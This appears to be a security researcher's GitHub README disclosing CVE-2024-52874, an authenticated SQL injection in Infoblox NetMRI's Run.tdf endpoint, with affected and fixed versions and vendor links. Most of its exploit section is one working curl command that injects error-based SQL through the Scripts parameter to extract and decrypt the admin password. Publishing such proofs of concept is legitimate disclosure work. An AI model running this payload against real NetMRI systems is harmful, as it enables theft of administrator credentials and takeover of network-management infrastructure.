 # CVE-2024-52874: Infoblox NetMRI Authenticated SQL Injection in Run.tdf

## Information
**Description:** This exploits an authenticated SQL injection in the Run.tdf endpoint of Infoblox NetMRI.  
**Versions Affected:** 7.5.4.104695  
**Version Fixed:** 7.6.1  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/infoblox-multiple-cves/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-52874  
**Vendor Advisory:** https://support.infoblox.com/s/article/Infoblox-NetMRI-is-vulnerable-to-CVE-2024-52874

## Proof-of-Concept Exploit
### Description
This exploit uses the Scripts parameter in Run.tdf to leak data via SQL injection.

### Usage/Exploitation
```
curl -k "https://<NETMRI_HOST>/netmri/ccs/tx/run/Run.tdf?Scripts=1+AND+updatexml(rand(),concat(CHAR(126),NetmriDecrypt((select%20PasswordSecure%20from%20skipjack.ACLUser%20where%20UserName=%22admin%22),%22password%22,1),CHAR(126)),null)--"
```

### Screenshot
![poc_image](poc.png)